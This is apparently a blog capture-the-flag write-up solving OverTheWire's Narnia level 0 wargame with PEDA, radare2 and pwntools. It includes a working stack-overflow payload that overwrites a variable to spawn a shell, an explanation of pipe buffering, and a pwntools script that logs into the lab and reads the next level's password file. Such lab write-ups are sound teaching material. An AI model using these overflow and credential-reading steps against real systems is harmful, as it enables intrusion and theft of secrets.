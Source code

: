 ```yaml
---
title: "Narnia0 Write-up"
layout: post
category: HackING
author: A1phaZer0
---
```

3 ways to conquer narnia0, by peda, by radare2 and by pwntools.
<!--more-->
### PEDA way
1.Get De Bruijn sequence to make overflow happen.  
```bash
gdb-peda$ pattern create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /narnia/narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
buf: AAA%AAsAABAA$AAnAACAA-AA
val: 0x41412d41
WAY OFF!!!!
[Inferior 1 (process 1013) exited with code 01]
Warning: not running or target is remote
```
2.`val` is filled by `0x41 0x2d 0x41 0x41` (little endian), which is `A-AA`. Now we know that `val` is 20 bytes away from beginning of the buffer.  
```bash
gdb-peda$ pattern offset A-AA
A-AA found at offset: 20
```
3.Craft the desired sequence.  
```bash
$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
```
4.But, nothing happened.  
```bash
narnia0@narnia:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
                                                 val: 0xdeadbeef
narnia0@narnia:/narnia$
```
NOW, HERE IS THE TRICK   
```c
+-------------------+           +--------------+           +-------------------+
|                   |  write()  |              |  read()   |                   |
|  libc I/O buffer  |---------->| pipe buffer  |---------->|  libc I/O buffer  |
|                   |           |              |           |                   |
+-------------------+           +--------------+           +-------------------+
|             ^     |                                      |     |             |
| printf()    |     |                                      |     |    scanf()  |
| puts()      |     |                                      |     |    getline()|
| fwrite()----+     |                                      |     +---->fread() |
|                   |                                      |                   |
|                   |                                      |                   |
+-------------------+                                      +-------------------+
```
* stdin is always buffered.
* stderr is always unbuffered.
* stdout is line buffered if it's a terminal, otherwise it's buffered.
* if left side of pipe is closed, right side process will read() a EOF.

So, when a process on the left side of the pipe explicitly calls flush function or when it exits, everything in I/O buffer will be write() into pipe buffer. On the right side, it's a different story, e.g. `scanf("%20s", buf);`, if characters left in I/O buffer is not enough, then kernel will read() everything in pipe buffer into I/O buffer, if characters in pipe buffer is not adequate, then there will be another read() until there's nothing to read(), i.e. read() returns 0.  

In this program, narnia0, `system("/bin/sh");` is called, means that there will be another process and I/O buffer connected to pipe buffer. New shell tries to read() from pipe buffer to get input, so our work is to satisfy `scanf()` in narnia0 and leave something to read() in pipe buffer.  

### radare2 way
In radare2 one can directly do reverse engineering to see what's under the hood.   
1.Open binary and navigate to `main`.
```bash
narnia0@narnia:/narnia$ r2 narnia0
[0x08048400]> s main
```
2.Analyze `main` function and print disassembled code.
```c
[0x080484fd]> afr main
[0x080484fd]> pdf
/ (fcn) main 156
|           0x080484fd      55             push ebp
|           0x080484fe      89e5           mov ebp, esp
|           0x08048500      83e4f0         and esp, 0xfffffff0
|           0x08048503      83ec30         sub esp, 0x30
|           0x08048506      c744242c4141.  mov dword [esp + 0x2c], 0x41414141
|           ...
|           0x08048526      8d442418       lea eax, [esp + 0x18]
|           0x0804852a      89442404       mov dword [esp + 4], eax
|           0x0804852e      c70424798604.  mov dword [esp], str._24s
|           0x08048535      e8b6feffff     call sym.imp.__isoc99_scanf
|           ...
|           0x08048597      c9             leave
\           0x08048598      c3             ret
```
As one can see, `esp + 0x2c` is where 0x41414141 located and `esp + 0x18` is where buffer start.
```bash
[0x080484fd]> ? 0x2c - 0x18
20 0x14 024 20 0000:0014 20 "\x14" 00010100 20.0 20.000000f 20.000000
```
Now one can know that `val` is 20 bytes away from `buffer` and scanf reads 24 bytes from input, so the last 4 bytes will override what's in `val`.  

### pwntools way
```python
#!/usr/bin/env python

from pwn import *

session = ssh('narnia0', 'narnia.labs.overthewire.org', port=2226, password='narnia0')

io = session.process('/narnia/narnia0')

io.sendline(cyclic(20)+p32(0xdeadbeef))
io.sendline('cat /etc/narnia_pass/narnia1')

log.info (io.recvregex('\$.*\n'))

io.close()
session.close()
```
